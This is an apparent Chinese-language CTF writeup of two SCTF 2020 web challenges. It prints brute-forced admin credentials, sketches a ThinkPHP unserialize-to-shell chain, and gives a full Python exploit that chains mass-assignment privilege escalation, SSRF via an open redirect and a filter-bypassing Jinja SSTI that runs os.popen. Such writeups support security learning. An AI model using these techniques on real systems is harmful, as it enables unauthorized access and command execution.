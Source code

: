 ```yaml
---
title: SCTF 2020 两道Web题 Writeup
tags: 
    - Writeup
    - CTF
    - XCTF
date: 2020-7-7
---
```


## UnsafeDefenseSystem

PHP/5.6.26, tp 5.0.24
经过一番吐血的信息搜集，看到了这个破静态站的源码里竟然有注释  

{% asset_img hint.png hint in comment %}

> 我要对出题人使出极限一换一

访问/protect.py能看到一个超长的憨批监控脚本，其实也不用看  
在静态站注释提示的/public/nationalsb/login.php的注释中又看到了关于密码的提示

{% asset_img passwd_hint.png passwd_hint %}

通过爆破得到用户名密码：

```text
Admin1964752
DsaPPPP!@#amspe1221
```

后台存在lfi。经过一番读文件，看到index controller中存在反序列化点

{% asset_img entry.png unserialize entry %}

结合上文所知道的thinkphp版本可以搜到:

https://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/  
https://xz.aliyun.com/t/7594

出题人可能是想让条件竞争过protect.py，但是实际上我们可以往/tmp目录底下写文件，并且在nationalsb那里包含这一文件，最终拿到shell

{% asset_img phpinfo.png phpinfo %}

## jsonhub

白盒审计。对外开放的是web1，一个Django服务，内网还有个flask。

首先整理思路：首先要过那个django的token，然后ssrf请求flask_rpc，这样才能带上Content-Type发POST请求

{% asset_img create_user.png User creation flaw %}

很明显，注册的时候参数完全可控，也就是说可以伪造管理员身份。将两个字段，`is_superuser`与`is_staff`都设置为True，就能访问 `http://39.104.19.182/admin/app/token/` 拿到token了。

在请求后方flask服务前，django服务对`REMOTE_URL`进行了验证。由于题目部署在了docker里，访问公网ip时`REMOTE_URL`实际上是172.多少多少（即使不在docker里也是公网ip）。

https://xz.aliyun.com/t/3302  
利用CVE-2018-14574漏洞进行跳转即可

再看第二个服务：

```python
@app.before_request
def before_request():
    data = str(request.data)
    log()
    if "{{" in data or "}}" in data or "{%" in data or "%}" in data:
        abort(401)
...
    json.loads(...)
```

python中的json模块在解析json时会自动将转义过的字符恢复，所以可以用`"\u007b"`来绕过`before_request`
关于表达式的正则过滤，由于对符号的过滤不严格导致了一个非预期，甚至完全不需要管num1和num2：

exploit:

```python
from requests import Request, session, get, post
from bs4 import BeautifulSoup
from base64 import b64encode
import json
HOST = 'http://39.104.19.182'


ses = session()
USER = 'frkasdf'
PASS = 'qwer'

# session 默认keep-alive，这个服务端好像有点连接性问题，所以单独请求
post(HOST + '/reg/', json={
    'username': USER,
    'password': PASS,
    'is_staff': True,
    'is_superuser': True
}).json()['code']

ses.post(HOST + '/login/', json={
    'username': USER,
    'password': PASS,
})

page = BeautifulSoup(get(
    HOST + '/admin/app/token/', cookies=ses.cookies
).text, 'lxml')
token = page.find('td', attrs={'class': 'field-Token'}).text

ssti = '{{config.__class__.__init__.__globals__["os"].popen("/readflag").read() + ""}}'

payload = ('{' + json.dumps({
    'num1': '', 'num2': '', 'symbols': ssti,
})[1:-1].replace('{', '\\u007b').replace('}', '\\u007d') + '}')

payload = b64encode(payload.encode()).decode()

req = Request('GET', HOST + '//127.0.0.1:8000/flask_rpc', params={
    'methods': 'POST',
    'url': 'http://localhost:5000/caculator',
    # flask在:5000
    'data': payload
}).prepare()

print(json.loads(ses.post(HOST + '/home/', json={
    'url': req.url,
    'token': token
}).json()['message'])['message'])
```
